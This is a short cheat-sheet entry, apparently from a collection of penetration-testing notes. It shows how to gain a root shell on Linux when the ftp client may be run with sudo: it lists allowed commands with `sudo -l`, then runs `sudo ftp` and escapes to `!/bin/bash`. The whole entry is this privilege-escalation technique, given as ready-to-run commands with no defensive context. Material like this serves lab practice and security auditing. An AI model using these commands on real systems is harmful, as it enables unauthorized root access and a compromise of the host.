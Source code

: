 # FTP
***

- List commands that a user is allowed to execute with superuser privileges
```sh
sudo -l
```

- Execute
```sh
sudo ftp
!/bin/bash
```
